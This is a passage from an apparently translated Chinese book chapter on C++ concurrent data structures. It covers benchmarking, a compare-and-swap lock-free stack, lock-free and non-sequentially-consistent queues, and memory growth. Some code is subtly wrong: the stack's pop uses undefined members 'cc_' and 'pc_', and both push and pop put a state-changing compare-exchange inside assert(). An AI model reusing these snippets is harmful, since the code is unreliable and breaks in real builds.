即使没有竞争，还有另一个问题:只弹出元素N-1，这在当时是正确的做法。但是，当线程C请求了一个`push`时，应该使用哪个插槽？如果使用槽位N-1，则可能会覆盖线程A当前访问的元素。如果使用槽位N，当所有的操作都完成，数组中就会出现一个洞。顶部的元素是N，但下一个元素不是N-1，N-1已经弹出，必须跳过它。据结构没有告诉我们必须这样做。

可以跟踪哪些元素是存在，哪些元素是洞，但这些问题会将场面弄得越来越复杂(以线程安全的方式进行将需要额外的同步，这会降低性能)。另外，留下许多未使用的数组槽会浪费内存。可以尝试为`push`堆栈的新元素重用已空闲的槽，但这时元素不再连续存储，原子顶部计数不再工作，整个结构类似于一个链表。如果认为链表是实现线程安全堆栈的好方法，在本章后面的内容中会看到如何实现线程安全的链表。

在设计上，必须暂停深入研究实现细节，并再次检查解决问题的更一般方法。需要由两个步骤完成:从对堆栈实现细节的更深入理解中总结出结论，并进行性能估计，以大致了解哪些解决方案可能会带来性能上的改进。我们先从后者开始。

**7.3.5同步方案的性能评估**

我们第一次尝试在没有锁的情况下实现一个堆栈，也产生了一些有趣的解决方案，但并没有通用的解决方案。在花更多的时间构建一个复杂的设计之前，应该试着评估其比基于锁的设计，更有效率的可能性有多大。

当然，这看起来像是循环推理。为了估计性能，必须首先对一些东西进行评估。但是我们不想浪费时间进行复杂的设计，所以才需要进行性能评估。

幸运的是，我们可以参考前面观察的结果。并发数据结构的性能，很大程度上取决于并发访问多少共享变量。假设可以想出一种聪明的方法，用一个原子计数器来实现堆栈。可以合理地假设，每次`push`和`pop`都必须对这个计数器进行至少一次原子递增或递减操作(除非正在进行批处理操作)。如果将单线程堆栈上的`push`和`pop`与共享原子计数器上的原子操作结合起来进行基准测试，可以得到一个合理的性能评估。因为没有同步，所以必须为每个线程使用单独的堆栈，以避免条件竞争:

``` {style="styleCXX"}
std::atomic<size_t> n;
void BM_stack0_inc(benchmark::State& state) {
	st_stack<int> s0;
	const size_t N = state.range(0);
	for (auto _ : state) {
		for (size_t i = 0; i < N; ++i) {
			n.fetch_add(1, std::memory_order_release);
			s0.push(i);
		}
		for (size_t i = 0; i < N; ++i) {
			n.fetch_sub(1, std::memory_order_acquire);
			benchmark::DoNotOptimize(s0.pop());
		}
	}
	state.SetItemsProcessed(state.iterations()*N);
}
```

`st_stack`是堆栈包装器，提供的接口与基于锁的`mt_stack`相同，但不使用锁。实际表现会稍微慢一些，因为堆栈顶部在线程之间共享，但这将会是对上面实现的评估:任何真正线程安全的实现，都不太可能比这个基准测试的性能更好。那用什么来比较结果呢？图7.3中基于锁的堆栈基准展示了堆栈的性能，在线程上每秒进行30M次`push/pop`操作，在8个线程上每秒进行3.1M的`push/pop`操作。在没有锁的情况下，堆栈的基线性能大约是每秒`485M`个操作(图7.4)。在同一台机器上，使用单个原子计数器进行性能评估，结果如下:

\
图7.10 - 性能评估------使用单个原子计数器的堆栈

结果看起来很复杂。即使在最优条件下，堆栈性能也不会改变。同样，这主要是因为测试的是一堆小元素。因为多个线程可以同时复制数据，如果元素很大，且复制成本很高，就会看到扩展的性能。如果复制数据变得非常昂贵，需要很多线程来完成它，最好使用指针堆栈，从而不用复制任何数据。

另一方面，原子计数器要比基于互斥锁的堆栈快得多。当然，这是上面的评估，但它表明无锁堆栈存在一些可能性。然而，基于锁的堆栈也是如此。当需要锁定非常小的临界区时，有比`std::mutex`更高效的锁。实现自旋锁后(已经在第6章中看到过一个这样的锁)，并在基于锁的堆栈中使用这个自旋锁，与图7.2不同，会得到如下的结果:

\
图7.11 - 基于自旋锁堆栈的性能

将这个结果与图7.10进行比较，会得出非常令人沮丧的结果，我们已经想不出一个比简单自旋锁更好的无锁设计。某些情况下，自旋锁的性能优于原子增量的原因，与不同的原子指令在特定硬件上的相对性能有关。所以这里，不应该对此过度解读。

可以尝试用原子交换或比较-交换代替原子增量来完成评估测试。随着了解了更多关于设计线程安全数据结构的知识，还将了解到有哪些同步协议可能有用，以及应该在评估中加入哪些操作。此外，如果使用特定的硬件，应该运行简单的基准来确定哪些操作在该硬件上更高效。目前，所有的结果都是在基于x86的硬件上获得的。如果在专门为HPC应用程序设计的基于ARM的大型服务器上运行相同的评估测试，会得到非常不同的结果。基于锁的堆栈的基准测试结果如下所示:

\
图7.12 - 基于锁的堆栈在ARM HPC系统上的性能

ARM系统通常比x86系统有更多的内核，而单个内核的性能较低。这个特定系统的两个物理处理器上有160个核，当程序在两个CPU上运行时，锁的性能会显著下降。对无锁堆栈性能上限的评估应该使用比较-交换指令来完成，而不是使用原子增量(后者在这些处理器上的效率特别低)。

\

\
图7.13 - 堆栈中CAS操作的性能评估(ARM处理器)

根据图7.13中的评估，对于大量的线程，可能有比基于锁的堆栈更好的方法。我们将继续努力开发一个无锁堆栈，原因有二:首先，这种努力最终会在某些硬件上得到回报。其次，这个设计的基本元素将在许多其他数据结构中看到，并且堆栈可以提供了一个简单的测试用例进行学习。

**7.3.6无锁的堆栈**

既然已经决定尝试，并超越一个简单的基于锁的实现，需要考虑一下从`push`和`pop`操作本身的探索中获得的经验。每一个操作都很简单，但两者的交叉使用考究增加了复杂性。在多个线程上正确地同步生产者和消费者操作，要比只处理生产者或消费者操作困难得多。在设计自己的数据结构时请牢记，若应用程序允许对需要支持的操作进行类型限制，例如生产者和消费者在时间上是分开的，或者有一个生产者(或消费者)线程，那么肯定可以为这些有限的操作，设计一个更快的数据结构。

假设需要一个完全通用的堆栈，生产者-消费者交互问题的本质可以通过一个简单的例子来理解。同样，假设堆栈是在数组或类似数组的容器之上实现，并且元素是连续存储。假设堆栈上现在有N个元素，生产者线程P正在执行`push`操作，同时消费者线程C正在执行`pop`操作。结果是什么？虽然很想尝试一种无等待的设计(就像为仅消费者或仅生产者所做的那样)，但允许两个线程在不等待的情况下进行的设计，都将打破对于元素如何存储的假设。线程C必须等待线程P完成`push`操作，或者返回当前的顶部元素N。类似地，线程P必须等待线程C完成`push`操作，或者在槽N+1中构造一个新元素。如果两个线程都没有等待，那数组中就会出现空洞。最后一个元素的索引是N+1，但槽位N中没有存储任何内容，所以当从堆栈中弹出数据时，必须以某种方式跳过它。

看起来必须放弃无等待堆栈实现的想法，让其中一个线程等待另一个线程完成它的操作。还必须处理当顶部索引为0，且消费者线程试图进一步减少它时堆栈为空的可能性。当顶部索引指向最后一个元素时，数组的上界也会出现类似的问题，而生产者线程需要另一个槽。

这两个问题都需要一个有界的原子自增操作。除非值等于指定值，才进行自增(或自减)。在C++中(或主流硬件上)没有现成的原子操作，可以使用比较-交换(CAS)来实现，如下所示:

``` {style="styleCXX"}
std::atomic<int> n_ = 0;
int bounded_fetch_add(int dn, int maxn) {
	int n = n_.load(std::memory_order_relaxed);
	do {
		if (n + dn >= maxn || n + dn < 0) return -1;
	} while (!n_.compare_exchange_weak(n, n + dn,
			std::memory_order_release,
			std::memory_order_relaxed));
	return n;
}
```

这是一个非常典型的例子，说明如何使用CAS操作实现一个复杂的无锁原子操作:

1.  读取变量的当前值。

2.  检查必要的条件。本例中，验证了增量不会给指定边界外的值\[0,
    maxn\]。如果有界增量失败，返回-1(通常，对于越界的情况，需要执行特定的操作)。

3.  如果当前值等于前面读取的值，则会原子地将该值替换为所需的结果。

4.  如果步骤3失败，则当前值已更新，请再次检查它，并重复步骤3和4，直到成功。

虽然这看起来像是一种锁，但与锁有一个根本的区别:CAS比较在一个线程上失败的唯一原因是它在另一个线程上成功了(并且原子变量增加了)，所以出现共享资源争用时，至少有一个线程可以成功。

还有一个更重要的观察结论，它常常决定了可扩展的实现和低效的实现之间的差别。CAS循环对大多数现代操作系统的调度算法非常不利，不能成功循环的线程会消耗更多的CPU时间，并将赋予更高的优先级。这与想要的完全相反，希望当前正在做有用工作的线程运行得更快。解决方案是让一个线程在尝试了几次不成功的CAS之后生成调度，这可以通过系统调用来完成，但是C++有一个系统独立的API，可以通过`std::this_thread::yield()`进行。在Linux上，可以通过每隔几次循环调用`nanosleep()`进行休眠，从而获得尽可能短的时间(1纳秒)来获得更好的性能:

``` {style="styleCXX"}
int i = 0;
while ( … ) {
	if (++i == 8) {
		static constexpr timespec ns = { 0, 1 };
		i = 0;
		nanosleep(&ns, NULL);
	}
}
```

同样的方法也可以用于实现更复杂的原子事务，比如堆栈`push`和`pop`，但必须先弄清楚需要哪些原子变量。对于生产者线程，需要数组中第一个空闲槽的索引。对于消费者线程，需要最后一个完成构造的元素的索引。这需要堆栈当前状态的信息，并不允许数组中有"洞"出现:

\
图7.14 ------
无锁堆栈:`c_`是最后一个完成构造的元素的索引，`p_`是数组中第一个空闲槽的索引

如果两个索引当前不相等，`push`和`pop`都不能进行。不同的计数意味着要么构造一个新元素，要么是复制当前顶部元素。在这种状态下的堆栈修改都可能导致数组中出现空洞。

如果两个索引相等，就可以继续。为了执行`push`操作，需要自动增加生产者索引`p_`(受数组当前容量限制)。然后，可以在刚才保留的槽中构造新元素(以旧的`p_`值为索引)。然后，增加消费者索引`c_`，表示新元素对消费者线程可用。注意，另一个生产者线程可以在构造完成之前获取下一个插槽，但必须等到所有新元素都构造好之后，才允许消费者线程弹出元素。这样的实现是可能的，但更复杂，而且倾向于当前执行的操作。如果当前正在进行`push`，则`pop`必须等待，但另一个`push`可以立即进行。结果很可能是，当所有消费者线程都在等待时，一堆`push`操作正在执行(如果`pop`操作正在进行，效果类似)。

`pop`的实现与此类似，只是首先递减消费索引`c_`以保留顶部的位置，然后递减`p_`从堆栈中复制或移动对象。

还需要学习一个技巧，那就是如何在原子上处理这两个数。例如，线程必须等待两个索引值相等，如何做到？如果以原子的方式读取一个索引，然后以原子的方式读取另一个索引，那么第一个索引有可能在读取后发生了变化。必须在一个原子操作中读取两个索引，对索引的其他运算也是如此。C++允许声明由两个整数组成的原子结构体，但必须小心，硬件平台很少有双CAS指令，并以原子的方式对两个长整数进行操作，即使这样可行，通常也会非常慢。更好的解决方案是将两个值打包到一个64位字中(在64位处理器上)。诸如load或compare-and-swap之类的硬件原子指令，它们并不关心读写的数据，只是复制和比较64位的数据。稍后可以将这些位作为long、double或一对int来处理(当然，原子增量只能是整数，这就是为什么不能将其用于double值的原因)。

现在，剩下的就是将前面的算法转换成代码:

\
**02b_stack_cas.C**

``` {style="styleCXX"}
template <typename T> class mt_stack {
	std::deque<T> s_;
	int cap_ = 0;
	struct counts_t {
		int p_ = 0; // Producer index
		int c_ = 0; // Consumer index
		bool equal(std::atomic<counts_t>& n) {
			if (p_ == c_) return true;
			*this = n.load(std::memory_order_relaxed);
			return false;
		}
	};
	mutable std::atomic<counts_t> n_;
	public:
	mt_stack(size_t n = 100000000) : s_(n), cap_(n) {}
	void push(const T& v);
	std::optional<T> pop();
};
```

这两个索引是装入64位原子值的32位整数。`equal()`可能看起来很奇怪，但是其目的很快就会展现出来。如果两个下标相等，则返回true;否则，将从指定的原子变量更新存储的索引值。这遵循了前面看到的CAS模式:若需要的条件没有满足，就再次读取原子变量。

注意，不能再在STL堆栈的基础上构建线程安全的堆栈。容器本身在线程之间共享，即使容器没有增长，其上的`push()`和`pop()`操作也不是线程安全的。简单起见，使用了一个`deque`，该`deque`初始化时使用了足够多的默认构造元素。只要不调用容器成员函数，就可以在不同的线程独立地操作不同的元素。这只是避免同时处理内存管理和线程安全的一种方式。在实际中，都不希望默认构造所有元素(元素类型甚至可能没有默认构造函数)。通常，高性能并发软件系统都有自己的自定义内存分配器，也可以使用与堆栈元素类型相同大小和对齐方式的虚拟STL容器，但使用简单的构造函数和析构函数(实现起来不难，留给读者作为练习)。

`push`操作实现了之前讨论过的算法:等待索引相等，推进生产者索引`p_`，构造新的对象，当完成时推进消费者索引`c_`:

\
**02b_stack_cas.C**

``` {style="styleCXX"}
void push(const T& v) {
	counts_t n = n_.load(std::memory_order_relaxed);
	if (n.p_ == cap_) abort();
	while (!n.equal(n_) ||
	!n_.compare_exchange_weak(n, {n.p_ + 1, n.c_},
	std::memory_order_acquire,
	std::memory_order_relaxed)) {
		if (n.p_ == cap_) { … allocate more memory … }
	};
	++n.p_;
	new (&s_[n.p_]) T(v);
	assert(n_.compare_exchange_strong(n, {n.p_, n.c_ + 1},
	std::memory_order_release, std::memory_order_relaxed);
}
```

最后的CAS操作应该永远不会失败，除非代码中有Bug。调用线程成功地推进了`p_`，其他线程就不能更改这两个值，直到同一个线程推进了`c_`进行匹配(这是一种低效的操作，但修复这种复杂性的代价很高)。另外，为了简便起见，我们省略了在循环中对`nanosleep()`或`yield()`的调用，但这在实际实现中都是必不可少的。

`pop`操作类似，首先递减消费者索引`c_`，然后从堆栈中移除顶部元素时，递减`p_`以匹配`c_`:

\
**02b_stack_cas.C**

``` {style="styleCXX"}
std::optional<T> pop() {
	counts_t n = n_.load(std::memory_order_relaxed);
	if (n.c_ == 0) return std::optional<T>(std::nullopt);
	while (!n.equal(n_) ||
		!n_.compare_exchange_weak(n, {n.p_, n.c_ - 1},
			std::memory_order_acquire,
			std::memory_order_relaxed)) {
		if (n.c_ == 0) return std::optional<T>(std::nullopt);
	};
	--n.cc_;
	std::optional<T> res(std::move(s_[n.p_]));
	s_[n.pc_].~T();
	assert(n_.compare_exchange_strong(n, {n.p_ - 1, n.c_},
		std::memory_order_release, std::memory_order_relaxed));
	return res;
}
```

同样，如果程序正确，最后的compare-and-swap也不会失败。

无锁堆栈是可能的最简单的无锁数据结构之一，而且它相当复杂。验证实现是否正确所需的测试并不简单，除了所有的单线程单元测试之外，还必须验证是否存在条件竞争。在最新的GCC和CLANG编译器中，可以使用诸如线程杀毒器(TSAN)之类的工具，这使得这项任务变得更加容易。这些工具的优点是，可以检测潜在的数据竞争，而不仅仅是测试期间实际发生的数据竞争(在小型测试中，观察到两个线程同时不正确地访问同一内存的概率非常低)。

经过我们的努力，无锁堆栈的性能如何？如预期的那样，在x86处理器上，它的性能还是不敌自旋锁的版本:

\
图7.15 ------ x86 CPU上无锁堆栈的性能(与图7.11相比)

为了进行比较，自旋锁保护的堆栈可以在同一台机器上每秒执行大约70M个操作。这与前一节对性能评估的预期一致。然而，同样的评估表明，无锁堆栈可能优于ARM处理器。基准测试证明了我们的努力没有白费:

\
图7.16 - ARM CPU上无锁堆栈的性能(与图7.12相比)

基于锁的堆栈单线程性能更好，如果线程数量大，则无锁堆栈的速度要快得多。如果基准测试包含大量的`top()`调用(许多线程在一个线程抛出顶层元素之前读取了它)，或者如果生产者和消费者线程是不同的(一些线程只使用`push()`，而其他线程只使用`pop()`)，那么无锁堆栈的优势就会更大。

本节中，我们研究了线程安全堆栈数据结构的不同实现。为了理解线程安全需要什么，必须分别分析每个操作，以及多个并发操作的交互。以下是我们得到的经验:

-   有了好的锁实现，锁保护的堆栈提供了合理的性能，并且比其他选择简单得多。

-   关于数据结构的使用，限制特定于应用程序的信息，都应该用来以较低的成本获得较好的性能。但这不是开发通用解决方案的地方，而实现尽可能少的特性，并试图从限制中获得性能优势才是要做的事情。

-   通用的无锁实现是可能的，但对于像堆栈这样简单的数据结构，也相当复杂。有时，这种复杂性甚至是合理的。

目前为止，我们还没有讨论到内存管理的问题。当堆栈耗尽容量时，它隐藏在分配更多内存的后面。我们稍后会再回到这个问题上的。这里，先让我们探索一下其他的数据结构。

###  7.4.线程安全的队列 {#线程安全的队列 .unnumbered}

队列是一个非常简单的数据结构，可以从两端访问的数组:数据添加到数组的队尾，在队头删除数据。实现时，队列和堆栈还是有一些区别和相似的，接下来我们会经常将队列和堆栈进行对比。

就像堆栈一样，STL也有队列容器`std::queue`，当涉及到并发性时，也有相同的问题:删除元素的接口不是事务性的，需要三个独立的成员函数共同完成。如果使用带有锁的`std::queue`创建一个线程安全的队列，就必须像堆栈那样对其进行包装:

\
**03_queue.C**

``` {style="styleCXX"}
template <typename T> class mt_queue {
	std::queue<T> s_;
	mutable spinlock l_;
	public:
	void push(const T& v) {
		std::lock_guard g(l_);
		s_.push(v);
	}
	std::optional<T> pop() {
		std::lock_guard g(l_);
		if (s_.empty()) {
			return std::optional<T>(std::nullopt);
		} else {
			std::optional<T> res(std::move(s_.front()));
			s_.pop();
			return res;
		}
	}
};
```

这里使用自旋锁(比互斥锁快)。`front()`的实现方式与`pop()`相似，只是不需要删除头部元素。基准测试会测量"一个元素推入队列，并将其弹出"所花费的时间。使用上一节中做测试的x86机器，可以得到以下的结果:

\
图7.17 - 由自旋锁保护的`std::queue`性能

为了进行比较，在相同的硬件上，没有锁的`std::queue`每秒可以发送280M个元素(一个item表示`push`和`pop`，所以这里测试的是每秒可以通过队列吞吐多少个元素)。其结果与堆栈的情况非常相似，为了比锁保护的版本更好，必须尝试一下无锁实现。

**7.4.1无锁队列**

开始设计无锁队列之前，要对每个事务进行详细的分析，就像对堆栈那样。同样，假设队列建立在一个数组或类似数组的容器上(这里推迟讨论关于数组存满时会发生的问题)。将元素推入队列看起来就像堆栈一样:

\
图7.18 - 在队列尾部添加元素(生产者视角)

这里需要数组中第一个空槽的下标。然而，从队列中删除元素与在堆栈上的相同操作不同。可以在图7.19中看到(与图7.9比较):

\
图7.19 - 在队头部移除元素(消费者视角)

元素从队列的头部删除，因此需要尚未删除的第一个元素的索引(队列当前的头)。

现在来看看队列和堆栈之间的区别。堆栈中，生产者和消费者都在同一个位置上操作:堆栈的顶部。若生产者开始在堆栈顶部构造新元素，消费者就必须等待其完成。`pop`操作不能返回最后一个构造的元素，而不会在数组中留下一个空洞，而且在构造完成之前，不能返回正在构造的元素。

对于队列来说，情况就不同了。只要队列不是空的，生产者和消费者就根本不会交互。`push`操作不需要知道头部的索引是什么，而`pop`操作不关心队尾的索引。生产者和消费者不会对同一内存位置的访问进行竞争。

当遇到这样的情况，即有几种不同的方式来访问数据结构，并且它们(大多数)不相互交互。建议首先考虑将这些角色分配给不同线程的场景，进一步简化使用每一种线程的方式。我们的例子中，其意味着一个生产者线程和一个消费者线程。

因为只有生产者需要访问返回索引，而且只有一个生产者线程，不需要为这个索引使用原子整数。类似地，索引只是普通整数。在队列变为空时，两个线程才会交互。为此，需要一个原子变量，表示队列的大小。生产者在第一个空槽中构造新元素，并向前推进返回索引(可以以任何顺序，因为只有一个生产者线程)。然后，增加队列的大小，以反映队列现有的元素数量。

消费者必须按相反的顺序操作。检查队列大小，确保队列不为空。然后消费者可以从队列中获取第一个元素，并推进队列头部的索引。当然，不能保证在检查和访问头部元素时，队列大小不会改变。但这也不会引起任何问题。因为，只有一个消费者线程，而生产者线程只能增加队列大小。

在探索堆栈的过程中，没讨论向数组添加更多内存的问题，并假设已知堆栈的最大容量，并且不会超过(如果超过了该容量，也可以使`push`操作失败)。对于队列来说，同样的假设就不够了。随着元素的添加和从队列中删除，前后的索引都会移动，并最终到达数组的末尾。当然，数组的第一个元素未使用，所以最简单的解决方案是将数组视为循环缓冲区，并对数组下标使用取模运算:

\
**03a_atomic_pc_queue.C**

``` {style="styleCXX"}
template <typename T> class pc_queue {
public:
	explicit pc_queue(size_t capacity) :
	capacity_(capacity),
	data_(static_cast<T*>(::malloc(sizeof(T)*capacity_))) {}
	~pc_queue() { ::free(data_); }
	bool push(const T& v) {
		if (size_.load(std::memory_order_relaxed) >= capacity_)
		return false;
		new (data_ + (back_ % capacity_)) T(v);
		++back_;
		size_.fetch_add(1, std::memory_order_release);
		return true;
	}
	std::optional<T> pop() {
		if (size_.load(std::memory_order_acquire) == 0) {
			return std::optional<T>(std::nullopt);
		} else {
			std::optional<T> res(
			std::move(data_[front_ % capacity_]));
			data_[front_ % capacity_].~T();
			++front_;
			size_.fetch_sub(1, std::memory_order_relaxed);
			return res;
		}
	}
private:
	const size_t capacity_;
	T* const data_;
	size_t front_ = 0;
	size_t back_ = 0;
	std::atomic<size_t> size_;
};
```

队列需要一个特殊的基准测试，因为在设计上受了一些限制:一个生产者线程和一个消费者线程:

\
**03a_atomic_pc_queue.C**

``` {style="styleCXX"}
pc_queue<size_t> q(1UL<<20);
void BM_queue_prod_cons(benchmark::State& state) {
	const bool producer = state.thread_index & 1;
	const size_t N = state.range(0);
	for (auto _ : state) {
		if (producer) {
			for (size_t i = 0; i < N; ++i) q.push(i);
		} else {
			for (size_t i = 0; i < N; ++i)
			benchmark::DoNotOptimize(q.pop());
		}
	}
	state.SetItemsProcessed(state.iterations()*N);
}
BENCHMARK(BM_queue_prod_cons)->Arg(1)->Threads(2)
->UseRealTime();
BENCHMARK_MAIN();
```

为了进行比较，应该在相同的条件下对锁保护的队列进行基准测试(锁的性能通常对线程竞争非常敏感)。同一台x86机器上，两个队列的吞吐量大致相同，为每秒100M个整数元素。在ARM处理器上，锁相对来说更耗时，我们的队列也不例外:

\
图7.20 - ARM上基于锁的整数队列与无锁整数队列的性能对比

即使是在x86上，分析也不完整。前一节中，若堆栈元素很大，那么复制所需的时间要长于线程同步(锁定或原子操作)。因为大多数时候，一个线程仍然需要等待另一个线程完成复制，所以不能充分利用使用这个堆栈，从而提出了替代方案:指针堆栈，将实际数据存储在其他地方。缺点是需要另一个线程安全的容器，来存储这些数据(程序需要将其存储在某个地方)。对于队列来说，这仍然是可行的建议，但现在有了另一个选择。队列中的生产者和消费者线程不会互相等待，它们的交互在检查大小后结束。如果数据元素很大，那么无锁队列就有优势，因为两个线程可以同时复制数据，并且比起线程竞争的时间要短得多。要进行这样的基准测试，只需要创建一个大型对象队列，比如一个包含大型数组的结构体。即使是在x86硬件上，也如预期的一样，无锁队列执行的更快:

\
图7.21 - x86上基于锁的队列与无锁队列的性能对比

即使有强加的限制，这也是非常有用的数据结构。当已知队列元素数量的上限时，这个队列可以用于在生产者和消费者线程之间传输数据，或者处理生产者在推送数据前的情况(等待)。队列非常高效，更重要的是它具有非常低的、可预测的延迟:队列本身没有锁，也没有等待。线程间不需要互相等待，除非队列已满。如果消费者必须对队列中获取的数据元素进行处理，并且开始的消费能力小于队列增加的速度，这样队列很快会填满。这时，常见的方法是让生产者处理不能入队的元素。这将在生产者线程产生延迟，直到消费者能够赶上生产的速率(因为会无序地处理数据，这种方法并不适用于每个程序，但通常非常高效)。

对于许多生产者或消费者线程的情况，队列的泛化将使实现更加复杂。即使使前后端索引原子化，基于原子的无等待算法也无法工作。如果多个消费者线程读取一个非零的值，这不再足以让其他线程继续。对于多个使用者，当一个线程检查发现非零时，大小可以减少，并变为零(在第一个线程测试大小之后，在尝试访问队列前端之前，其他线程弹出了所有元素)。

通用的解决方案是使用与堆栈相同的技术，将`front`和`back`索引打包到一个64位原子类型中，并使用比较-交换以原子方式访问。其实现类似于堆栈的实现，理解了上一节中的代码的读者可以来实现这个队列了。在文献中还可以找到其他无锁队列解决方案，本章将提供足够的背景知识来理解、比较和测试这些实现。

正确地实现复杂的无锁数据结构是很耗时的工作，需要技能和注意力。完成实现之前需要进行一些性能评估，这样就可以知道努力是否可能得到回报。这里使用模拟基准测试，将非线程安全数据结构(每个线程的本地)上的操作与共享变量(锁或原子数据)上的操作结合在一起。其目标是提出等效计算的代码，可以进行基准测试。不过，这样并不完美，如果有一个无锁队列的想法，有三个原子变量，每个原子变量上都有比较和交换操作，并且发现评估的基准测试要比自旋锁保护的队列慢好几倍，那么实现出来的队列就不太可能有好的回报。

对部分实现的代码进行基准测试的第二种方法是构造基准测试，以避免未实现的某些极端情况。如果希望队列在大部分时间内不为空，并且初始实现不处理空队列的情况，就应该对该实现进行基准测试，并限制基准测试，以便队列永远不会为空。这个基准测试将表明我们是否在正确的轨道上，将显示在非空队列情况下期望的性能。实际上，当堆栈或队列耗尽内存时，我们已经采用了这种方法。这里，只是简单地假设这种情况不会经常发生，并构建了基准测试来避免这种情况。

还有另一种类型的并发数据结构实现，使用起来很高效。接下要来了解一下。

**7.4.2顺序不一致的数据结构**

首先回到最开始的问题，什么是队列？当然，是一种数据结构，首先添加的元素先检索。实现中，元素添加到底层数组的顺序保证了这一点。比如：新元素添加到前面，而旧元素从后面读取。

仔细检查一下这个定义是否仍然适用于并发队列。当从队列中读取一个元素时，执行如下代码:

``` {style="styleCXX"}
T pop() {
	T return_value;
	return_value = data[back];
	--back;
	return return_value;
}
```

返回值可以包装在`std::optional`中或通过引用传递。关键是从队列中读取值，减少返回索引，并将元素值返回给调用者。多线程程序中，线程可以进行抢占。如果有两个线程A和B，并且线程A从队列中读取最旧的元素，有可能是线程B首先完成`pop()`，并将其值返回给调用者。因此，如果按顺序将两个元素X和Y放入队列，并且有多个线程将它们取出并打印，那么程序将打印Y，然后打印X。当多个线程将元素推入队列时，会发生同样的重新排序。最终，即使队列保持严格的顺序(如果暂停程序并检查内存中的数组，元素顺序正确)，程序其余部分退出队列的元素的顺序不能保证与进入队列的顺序一致。

当然，顺序也不是完全随机的。即使在并发程序中，堆栈看起来也与队列不同。从队列中检索到的数据的顺序与添加值的顺序大致相同，大规模重排很少发生(由于某种原因，当一个线程延迟了很长时间时，就会发生大规模重排)。

队列仍然会保留的属性是*顺序一致性*。顺序一致产生的输出与所有线程一次执行一个操作(没有任何并发性)的程序的输出相同，任何特定线程执行操作的顺序都不会改变。换句话说，程序接受所有线程执行的操作序列，并可以交叉执行，但不会重新排序。

顺序一致性是一种便捷的属性，分析这类程序的行为要容易得多。在队列的情况下，线程A将两个元素X和Y入队，X先入队，然后是Y，并且线程B会将它们弹出队列，并且将以正确的顺序出现。另一方面，这两个元素可能由两个不同的线程弹出队列。这样，它们可以以任意顺序出现，所以程序必须能够处理这样的情况。

如果放弃顺序一致性，就为设计并发数据结构开辟了一种全新的方法。我们以队列来探讨，其基本思想是:可以有几个单线程子队列，而非单个线程安全队列。每个线程必须以原子的方式获得这些子队列中的所有权。最简单的实现方法是，使用指向子队列的原子指针数组，如图7.22所示。为了获得该队列的所有权，同时防止其他线程访问该队列，需要将子队列指针自动交换为空。

{width="70%"}\
图7.22 - 基于通过原子指针访问数组子队列的非顺序一致队列

需要访问队列的线程必须获得一个子队列，可以从指针数组的任何元素开始。如果为空，则该子队列当前处于繁忙状态，然后尝试下一个元素，以此类推，直到只剩下一个子队列。此时，只有一个线程在子队列上操作，因此不需要线程安全(子队列甚至可以是`std::queue`)。操作(`push`或`pop`)完成后，线程原子性地将子队列指针写回数组，将子队列的所有权返回给队列。

`push`操作必须继续尝试剩下的子队列，直到找到子队列为止(或者，可以允许`push`在尝试一定次数后失败，向调用者发出队列太忙的信号)。`pop`操作可能会保留一个子队列，结果发现是空的。这种情况下，必须尝试从另一个子队列中弹出(可以在队列中保持元素的原子计数，若队列是空的，可以快速返回)。

当然，`pop`可能在一个线程上失败，并报告队列为空。实际上，这并不是因为另一个线程将新数据推入队列。但这可能发生在并发队列上，一个线程检查队列大小，发现队列是空的，但在控制权返回给调用者之前，队列可能会成为非空队列。同样，顺序一致性对多个线程的可见性不一致性，需要进行了一些限制，而非顺序一致性队列使弹出元素的顺序变得不确定。尽管顺序有些乱，但还能接受。

不过，这并不是适用于所有数据结构，当大多数类似于队列顺序可以接受时，顺序不一致可以产生明显的性能提升，特别是在有许多线程的系统中。在一个运行许多线程的大型x86服务器上，进行顺序不一致队列扩展后的情况:

**03b_noncst_queue.C**

\
图7.23 - 顺序不一致队列的性能

这个基准测试中，所有线程都执行`push`和`pop`操作，并且元素相当大(复制每个元素需要复制1KB的数据)。为了进行比较，自旋锁保护的`std::queue`在单个线程上具有相同的性能(大约每秒170k个元素)，但根本没有扩展性(整个操作都是锁定的)，而且性能下降得很慢(由于锁定的开销)，对于最大线程数来说，性能会下降到(大约)每秒130k个元素。

当然，若出于性能考虑，可以接受顺序不一致程序的混乱，那么许多其他数据结构也可以使用这种方法。

当涉及到并发顺序容器(如堆栈和队列)时，我们要讨论的最后一个主题是如何处理需要更多内存的情况

**7.4.3并行数据结构的内存管理**

现在来讨论内存管理的问题，之前假设数据结构的初始内存分配已经足够，至少对于不会使整个操作变成单线程的无锁数据结构来说是这样的。本章中看到锁保护的和顺序不一致的数据结构没有这个问题，在锁或抢占所有权的方式下，只有一个线程操作特定的数据结构，所以内存按照常规的方式分配。

对于无锁数据结构，内存分配是一个重大挑战。这通常是一个耗时的操作，特别是当数据必须复制到新位置时。多个线程可能会让数据结构的内存耗尽，通常只有一个线程可以添加新的内存(很难让那部分也变成多线程)，其余的线程必须等待。对于这个问题没有较好的通用解决方案，这里只是给出一些建议。

首先，最好的选择是避免这个问题。当需要无锁数据结构时，可以估计其最大容量并预分配内存，例如：知道要进入队列的数据元素的总数。或者可以将问题推给调用者，可以告诉调用者数据结构的容量不足，而不是增加内存。对于无锁数据结构的性能来说，这可能是一个可以接受的折衷方案。

如果需要增加内存，最理想的做法是添加内存时，但不复制现有数据结构。这意味着不能简单地分配更多内存，并将所有内容复制到新位置。相反，必须将数据存储在固定大小的内存块中，就像`std::deque`一样。当需要更多内存时，会分配另一个内存块，通常会有一些指针地址需要更改，但不会复制数据。

完成内存分配的所有情况下，这是很少发生的事件。如果不是这样，那么使用由锁或独占所有权保护的单线程的数据结构就好。这个罕见事件的性能不是关键，可以简单地锁定整个数据结构，并让一个线程执行内存分配和必要的更新。关键的是公共内存地址，也就是意味着不需要更多内存的地址，所以程序会运行的很快。

这个想法非常简单，不希望每次都在每个线程上获取内存锁，串行化整个程序。也不需要这样做，大多数时候，不会内存不足，也不需要这个锁。因此，需要检查原子标志。只有当内存分配正在进行，并且所有线程都必须等待时，才会设置该标志:

``` {style="styleCXX"}
std::atomic<int> wait; // 1 if managing memory
if (wait == 1) {
	… wait for memory allocation to complete …
}
if ( … out of memory … ) {
	wait = 1;
	… allocate more memory …
	wait = 0;
}
… do the operation normally …
```

这里的问题是，多个线程可能会在设置等待标志之前同时检测内存不足的情况。然后，尝试向数据结构中添加更多的内存，这通常会导致竞争(重新分配底层内存很少是线程安全的)。不过，有一种简单的解决方案，称为**双重检查锁**，它同时使用互斥锁(或另一个锁)和原子标志。如果标志没有设置，那么一切正常，可以照常进行。如果设置标志，则必须获取锁，并再次检查该标志:

